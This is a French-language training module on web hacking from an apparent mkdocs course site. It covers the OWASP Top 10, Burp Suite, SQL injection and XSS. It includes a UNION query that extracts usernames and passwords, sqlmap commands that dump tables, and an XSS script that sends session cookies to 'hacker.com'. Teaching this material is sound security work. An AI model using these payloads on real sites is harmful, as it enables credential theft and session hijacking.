

repository: VBlackJack/ShellBook · page: formations/hacking-mastery/03-module/index.html · generator: mkdocs

---
tags:
  - hacking
  - web
  - burp
  - owasp
  - sqli
  - formation
---

# Module 3 : Web Hacking

Le Web est la plus grande surface d'attaque.

**Durée estimée :** 30 minutes

## 1. OWASP Top 10

La liste des 10 failles les plus critiques (mise à jour régulièrement).
1.  **Broken Access Control** : Accéder à l'admin sans être admin.
2.  **Cryptographic Failures** : Données en clair, algos faibles.
3.  **Injection** : SQL, Command, LDAP injection.
4.  **Insecure Design** : Faille de logique métier.
5.  **Security Misconfiguration** : Config par défaut, headers manquants.

## 2. Burp Suite : L'Outil Ultime

Burp est un **Proxy**. Il se place entre votre navigateur et le serveur web.
Vous pouvez voir, modifier et rejouer chaque requête HTTP.

### Setup
1.  Lancer Burp Suite Community.
2.  Configurer le navigateur pour utiliser le proxy `127.0.0.1:8080`.
3.  Installer le certificat CA de Burp pour intercepter le HTTPS.

### Fonctionnalités Clés
*   **Proxy (Intercept)** : Arrêter une requête en vol, changer `admin=false` en `admin=true`, et l'envoyer.
*   **Repeater** : Rejouer une requête en modifiant des paramètres pour tester des injections.
*   **Intruder** : Bruteforce (Fuzzing) sur des paramètres.

## 3. Injections SQL (SQLi)

Le serveur exécute votre code SQL au lieu de la requête prévue.

### Test Manuel
Ajouter `'` (quote) dans un champ. Si vous voyez une erreur SQL, c'est gagné.
`http://site.com/article?id=1'` -> `Error: You have an error in your SQL syntax...`

### Exploitation (UNION)
Récupérer des données d'autres tables.
`http://site.com/article?id=1 UNION SELECT username, password FROM users`

### Automatisation : SQLmap
```bash
sqlmap -u "http://site.com/article?id=1" --dbs
sqlmap -u "http://site.com/article?id=1" -D users --tables
sqlmap -u "http://site.com/article?id=1" -D users -T accounts --dump
```

## 4. Cross-Site Scripting (XSS)

Injecter du JavaScript qui s'exécute dans le navigateur de la victime.

*   **Reflected** : Le script est dans l'URL (Lien piégé).
*   **Stored** : Le script est stocké en BDD (Commentaire de blog).

**Payload de test :**
```html
<script>alert('Hacked')</script>
<img src=x onerror=alert(1)>
```

**Impact :** Vol de cookie de session (Session Hijacking).
```html
<script>fetch('http://hacker.com/?cookie=' + document.cookie)</script>
```

---
